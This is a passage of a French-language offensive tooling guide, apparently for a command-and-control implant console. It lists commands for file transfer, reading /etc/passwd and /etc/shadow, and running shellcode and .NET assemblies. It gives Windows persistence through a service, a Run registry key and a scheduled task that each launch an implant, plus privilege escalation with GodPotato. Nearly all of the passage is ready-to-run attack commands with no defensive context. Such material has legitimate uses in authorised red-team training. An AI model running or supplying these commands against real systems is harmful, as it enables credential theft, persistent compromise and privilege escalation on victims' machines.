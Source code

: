 ### 6.3 Gestion des fichiers
```bash
# Téléchargement de fichiers
download /path/to/remote/file /local/path/

# Upload de fichiers
upload /local/file /remote/path/

# Lecture de fichiers
cat /etc/passwd
cat /etc/shadow
```

### 6.4 Exécution de commandes
```bash
# Exécution de commandes shell
shell

# Exécution de commandes PowerShell (Windows)
execute-shellcode

# Assemblies .NET (Windows)
execute-assembly /path/to/assembly.exe
```

---

## 7. Persistence et Mouvement Latéral

### 7.1 Techniques de persistence Windows
```bash
# Service Windows
execute sc create MaliciousService binpath= "C:\path\to\implant.exe"
execute sc config MaliciousService start= auto

# Registre Windows
execute reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "MaliciousApp" /t REG_SZ /d "C:\path\to\implant.exe"

# Tâche planifiée
execute schtasks /create /sc onlogon /tn "MaliciousTask" /tr "C:\path\to\implant.exe"
```

### 7.2 Escalade de privilèges
```bash
# Énumération des privilèges
execute whoami /priv

# Exploitation SeImpersonatePrivilege avec GodPotato
upload GodPotato.exe C:\temp\GodPotato.exe
execute C:\temp\GodPotato.exe -cmd "cmd /c C:\path\to\implant.exe"
```
